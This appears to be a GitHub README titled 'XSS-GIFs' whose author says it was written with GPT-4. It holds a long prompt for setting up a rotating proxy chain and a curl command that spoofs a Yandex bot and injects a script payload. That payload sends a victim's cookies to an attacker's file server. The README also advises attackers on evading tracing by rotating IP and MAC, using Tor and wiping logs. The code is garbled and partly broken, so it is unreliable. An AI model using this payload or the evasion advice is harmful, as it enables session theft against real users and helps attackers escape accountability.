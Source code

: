 # XSS-GIFs
XSS injection into GIFs

This peace is promptengineered with gpt-4.
I spent a lot of time to develope the right prompts!!!
Here is a example prompt:
Please use the .pac structure from the file inkognito.pac. Configure the Debian NetworkManager to use this .pac. To get the list of proxies, use the program www.github.com/N3S3/INKOGNITO. The functional logic is in modified_main.py. Output is a list of tested proxies which you can transfer to the proxy list of proxies in inkognito.pac.  Store inkognito.pac in the folder /tmp/ but have always a template under /home/user/ backuped. Task is to have a program which generates a output of a bunch  working proxy addresses(INKOGNITO does this), this is stored in a pac file which rotates the ips every 1 minute. This in a proxy chain of 3 server. Place that in autorun and start the whole process every 1 hour(get a proxy list --> store in /tmp/inkognito.pac for the DebianNetworkManager and make it randomly rotate: 1st the 3 server chain (every 5 minutes) and the proxy list(every 1hour). Do not forget the backup of the native incognito.pac in /root. If you have questions feel free to ask. Dont break the code!!! Use a very high correctness and run unit tests. Good luck!!!   

![Screenshot 1](https://github.com/N3S3/XSS-GIFs/assets/68975029/c1cb3f2a-b59c-4d54-88b4-5cbd345eecab)


With code examples to use. You can turn on your burp suite and decode stuff with the decoder or install the framework rizin which has the advatage that it can be integrated into a python script. I also suggest to read the manual of curl (/usr/bin/bash man curl) to know some flags like -i -A, -X or -T which are pretty straight forward e.g.:

curl [options...] <url>
 -d, --data <data>          HTTP POST data
 -f, --fail                 Fail fast with no output on HTTP errors
 -h, --help <category>      Get help for commands
 -i, --include              Include protocol response headers in the output
 -o, --output <file>        Write to file instead of stdout
 -O, --remote-name          Write output to a file named as the remote file
 -s, --silent               Silent mode
 -T, --upload-file <file>   Transfer local FILE to destination
 -u, --user <user:password> Server user and password
 -A, --user-agent <name>    Send User-Agent <name> to server
 -v, --verbose              Make the operation more talkative
 -V, --version              Show version number and quit

<code>
$ touch /tmp/response.txt

http-header = $'GET' \ -H $'Host: yandex.com' -H $'User-Agent: 'Mozilla/5.0 (compatible; YandexImages/3.0; +http://yandex.com/bots)', -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8', -H $'Accept-Language: en;q=0.5, ru', -H $'Accept-Encoding: gzip, deflate', -H $'Referer: Http://baidu.cn', -H $'Connection: close', -H $'Upgrade-Insecure-Requests: 1', \-b $'session=', \$'https://yandex.com/bots?q='&lt;STYLE&gt;@im\port'\ja\vasc\ript&#58;p=d.write(\"d.coockie\");new img:src='your_file-server/'+p;&lt;/STYLE&gt'

$ ../bin/bash/curl f'-o response.txt -i -s -k -X '+{http-header}+' '+{victim url}'

</code>
Feel free to decode this into url_base64, hex, bin, char etc. It increases your chances for success. Do not forget to change your IP for example with github/N3S3/INKOGNITO, change your mac, use Tor-Browser or Libre Wolf as standard Browser and clean afterwards up with bleachbit (coockies + cache + logs) in overwrite mode on ssd. Hdd means 32xpeter-guthmann-method..thats not good for the lifecycle of your disk ;).Do not use ipv6, because of duid. Consider also spoofing of your uuid, canvas gps geolocation(location-guard add) and much more!!!! For questions and construtive critic: n3s3@myyahoo.com.
![Screenshot 2](https://github.com/N3S3/XSS-GIFs/assets/68975029/1e9c839a-5d7f-44ab-a7c1-4c4b10e5429f)




